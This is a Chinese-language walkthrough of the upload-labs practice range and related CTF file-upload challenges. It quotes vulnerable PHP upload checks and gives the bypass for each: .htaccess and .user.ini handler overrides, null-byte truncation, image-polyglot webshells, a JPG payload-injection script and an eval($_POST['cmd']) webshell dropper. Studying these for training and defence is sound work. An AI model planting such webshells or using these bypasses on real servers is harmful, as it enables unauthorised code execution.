








# 文件上传

[toc]


## 目录

### 简单

-   [极客大挑战 2019]Upload 基础的文件上传，php5环境可以利用script绕过标签限制
-   [ACTF2020 新生赛]Upload 基础的文件上传
-   [MRCTF2020]你传你🐎呢 基础的文件上传绕过
-   [GXYCTF2019]BabyUpload 基础的文件上传绕过

### 签到

-   [WUSTCTF2020]CV Maker
-   [RoarCTF 2019]Simple Upload
-   [HarekazeCTF2019]Avatar Uploader 2

### 中等

-   [SUCTF 2019]CheckIn .user.ini 除此之外还需要尝试绕过函数check
-   [XNUCA2019Qualifier]EasyPHP
-   [SWPU2019]Web3 jwt伪造+zip下载
-   [FireshellCTF2020]ScreenShoot
-   [JMCTF 2021]GoOSS 盲注解法很有意思=。=！

### 困难

-   2019 0CTF/TCTF wallbreaker easy 恶意so文件上传
-   [QWB2021 Quals]托纳多
-   l33t-hoster
-   [BBCTF2020]imgaccess2


## Upload labs

### lab1

前端绕过

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}

```

抓包改后缀为php，上传成功，


### lab2

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}

```

修改MIME

，常见mime类型：


### lab3


```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}

```

黑名单：('.asp','.aspx','.php','.jsp');

>   trim()的作用是去掉字符串两端的多余的空格,注意,是两端的空格,且无论两端的空格有多少个都会去掉
>
>   strrchr() 函数查找字符串在另一个字符串中最后一次出现的位置，并返回从该位置到字符串结尾的所有字符。

可以看到每次上传的名称都不一样


黑名单绕过，后缀为php3,php5等

需要在配置文件中：

```
AddType application/x-http-php .php .php3 .php5 .phtml
```


### lab4

**(php5.4.45及以前版本有效,nts版无效)**

几乎过滤了所有有问题的后缀名


```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

上传一个.htaccess

```
SetHandler application/x-httpd-php
```

不成功修改


为none

这样所有文件都会解析为php，然后再上传图片马，就可以解析

或者上传固定名称：

```
<FilesMatch "1.jpg"
SetHandler application/x-httpd-php
</FilesMatch>
```

### lab5

黑名单里有htaccess，没有.php7` 以及 `.ini

>   　 user.ini ： 自 PHP 5.3.0 起，PHP 支持基于每个目录的 .htaccess 风格的 INI 文件。此类文件仅被
>      CGI／FastCGI SAPI 处理。此功能使得 PECL 的 htscanner 扩展作废。如果使用 Apache，则用
>      .htaccess 文件有同样效果。
>
>      除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web
>      根目录（$_SERVER['DOCUMENT_ROOT'] 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。
>
>      在 .user.ini 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI
>      设置可被识别。
>
>      两个新的 INI 指令，user_ini.filename 和 user_ini.cache_ttl 控制着用户 INI 文件的使用。
>
>      user_ini.filename 设定了 PHP 会在每个目录下搜寻的文件名；如果设定为空字符串则 PHP 不会搜寻。默认值是
>      .user.ini。
>
>      user_ini.cache_ttl 控制着重新读取用户 INI 文件的间隔时间。默认是 300 秒（5 分钟）。

上传.user.ini

`auto_prepend_file=wait5min.gif`

再上传wait5min.gif为马


等待5分钟后访问：`readme.php`

此时 `.user.ini` 指定的所有符合 php 语言格式的文件均会被 readme.php 执行

### lab6

过滤的都是小写，并且没有strtolower，传1.Php即可绕过


### lab7

对文件名后的`.`进行删除，但是没有限制文件名中是否包含空格。

上传：`1.php ` 即可（有空格）

### lab8

去除了文件名中的空格，但是没有去除.

上传1.php.即可绕过

### lab9

没有::\$DATA

```
在window的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名，且保持::$DATA之前的文件名，他的目的就是不检查后缀名

例如:"phpinfo.php::$DATA"Windows会自动去掉末尾的::$DATA变成"phpinfo.php"
```

于是1.php::\$DATA

### lab10

前面的过滤都做了，但是没有循环：`1.php. .`(<-有空格)

### lab11

```php+HTML
<?php
$bodytag = str_ireplace("%body%", "black", "<body text=%BODY%>");
echo $bodytag; // <body text=black>
?>
```


它将后缀去掉了：




还是只做了一次过滤，双写绕过`1.pphphp`

### lab12

白名单，且已经指定了目录



可以00截断：

```
00截断前提：
magic_quotes_gpc = Off
php版本小于5.3.4
```

### lab13

因为post不会像get对`%00`进行自动解码，所以需要hex 00截断




### lab14

图片马

文件头标志

```
unpack() ：从二进制字符串对数据进行解包。
fread()：读取打开的文件，函数会在到达指定长度或者读到文件末尾时，停止运行。
```


```
图片马制作方式
Linux下：
cat 1.png 1.php > 2.png
Windows下：
copy 1.png /b + 1.php /a 2.png
```

成功上传图片马后利用`解析漏洞`或`本地文件包含漏洞`解析图片马





### lab15

与14关一样，只不过用到了getimagesize函数，可以用于检测文件头

### lab16

与前两关一样，但是需要打开php_exif，


```php
exif_imagetype#读取一个图像的第一个字节并检查其签名
```

本函数可用来避免调用其它 exif 函数用到了不支持的文件类型上或和 $_SERVER['HTTP_ACCEPT'] 结合使用来检查浏览器是否可以显示某个指定的图像。

### lab17

>   https://xz.aliyun.com/t/2657

主要是把二次渲染绕过
imagecreatefromjpeg（）函数

首先来看gif图：

将含有一句话的图片马上传，显示失败，下载图片，hex打开发现后面写入的马已被去除，对比前后图片的差异，在未发生变化的地方写入，上传，成功绕过。


再来看png图：

这里有点复杂，直接看上面先知的文章吧

jpg图的话使用脚本做图片马即可。

脚本：

```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }

        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
```

### lab18

18到20是条件竞争

可以通过条件竞争进行上传绕过
先上传一个WebShell脚本1.php，1.php的内容是生成一个新的WebShell脚本shell.php，1.php代码如下：

```php
<?php
　　fputs(fopen('../shell.php','w'),'<?php @eval($_POST['cmd'])?>');
?>
```

当1.php上传成功之后，客户端立即访问1.php，则会在服务器当前目录下自动生成shell.php，这时攻击者就完成了通过时间差上传webshell。

```python
import requests
url = "http://8.142.44.97:1111/upload/1.php"
while True:
    html = requests.get(url)
    if html.status_code == 200:
        print("OK")
        break
```

### lab19

也是条件竞争，路径有点问题，改一下：



和lab18一样

### lab20

解法一：

move_uploaded_file()函数中的img_path是由post参数save_name控制的，可以在save_name利用%00截断




作者本义应该不是这个。

解法二：

move_uploaded_file()有这么一个特性，会忽略掉文件末尾的 /.



### lab21

这一关是利用数组绕过验证

可以发现`$file_name`经过`reset($file) . '.' . $file[count($file) - 1];`处理。

如果上传的是数组的话，会跳过`$file = explode('.', strtolower($file));`。并且后缀有白名单过滤


而最终的文件名后缀取的是`$file[count($file) - 1]`，因此我们可以让`$file`为数组。`$file[0]`为`1.php/`，也就是`reset($file)`，然后再令`$file[2]`为白名单中的jpg。此时`end($file)`等于jpg，`$file[count($file) - 1]`为空。而 `$file_name = reset($file) . '.' . $file[count($file) - 1];`，也就是`1.php/.`，最终`move_uploaded_file`会忽略掉`/.`，最终上传`1.php`。


